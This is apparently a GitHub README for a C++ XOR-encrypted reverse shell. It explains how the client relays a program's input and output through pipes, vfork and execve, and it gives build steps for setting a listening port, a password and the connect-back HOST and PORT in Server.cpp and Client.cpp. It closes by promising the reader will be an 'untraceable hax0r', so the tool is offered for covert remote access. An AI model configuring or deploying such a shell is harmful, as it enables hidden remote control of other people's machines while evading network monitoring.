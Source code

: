 ### Ciphered Reverse Shell using XOR

By using pipes, vfork and execve its posible to manipulate interactively input and output of desired program.

### Building

Open `Server.cpp` and modify the following line:
```cpp
 Server *Srv = new Server(LISTENING-PORT, YOUR-PASSWORD);
```
Save and build with `make server`.

Open `Client.cpp`, first modify `Client` class:
```cpp
class Client{
        private:
                std::string strPassword = YOUR-PASSWORD;

```
Now on `main` specify where client its going to connect:
```cpp
if(Cli->Connect(HOST, PORT)){

```
Save and build with `make client`.


Now you are a untraceable hax0r :v
